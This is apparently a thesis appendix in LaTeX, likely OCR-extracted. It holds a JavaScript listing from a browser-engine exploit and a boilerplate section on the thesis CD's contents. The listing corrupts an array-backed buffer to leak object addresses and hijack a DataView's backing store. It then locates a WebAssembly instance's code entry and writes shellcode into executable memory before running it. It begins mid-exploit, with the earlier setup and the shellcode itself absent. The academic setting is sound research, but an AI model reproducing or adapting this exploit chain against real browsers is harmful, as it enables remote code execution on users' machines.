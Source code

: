 \documentclass[a4paper,twoside,12pt]{book}
\begin{document}
\begin{appendices}
\begin{lstlisting}
    corrput_arr[12] = 0x22444;
    delete corrput_arr;
    function setbackingStore(hi, low) {
        rwarr[4] = i2f(fLow(rwarr[4]), hi);
        rwarr[5] = i2f(low, fHi(rwarr[5]));
    }
    function leakObjLow(o) {
        corrupt_buff.slot = o;
        return (fLow(rwarr[9]) - 1);
    }
    let corrupt_view = new DataView(corrupt_buff);
    let corrupt_buffer_ptr_low = leakObjLow(corrupt_buff);
    let idx0Addr = corrupt_buffer_ptr_low - 0x10;
    let baseAddr = (corrupt_buffer_ptr_low & 0xffff0000) 
		- ((corrupt_buffer_ptr_low & 0xffff0000) % 0x40000) 
		+ 0x40000;
    let delta = baseAddr + 0x1c - idx0Addr;
    if ((delta % 8) == 0) {
        let baseIdx = delta / 8;
        this.base = fLow(rwarr[baseIdx]);
    } else {
        let baseIdx = ((delta - (delta % 8)) / 8);
        this.base = fHi(rwarr[baseIdx]);
    }
    let wasmInsAddr = leakObjLow(wasmInstance);
    setbackingStore(wasmInsAddr, this.base);
    let code_entry = corrupt_view.getFloat64(13 * 8, true);
    setbackingStore(fLow(code_entry), fHi(code_entry));
    for (let i = 0; i < shellcode.length; i++) {
        corrupt_view.setUint8(i, shellcode[i]);
    }
    main();
</script>
\end{lstlisting}
 

\chapter*{Contents of attached CD}

The thesis is accompanied by a CD containing:
\begin{itemize}
\item thesis (\texttt{pdf} file),
\item source code of applications,
\item data sets used in experiments.
\end{itemize}

\listoffigures
\listoftables
	
\end{appendices}
\end{document}
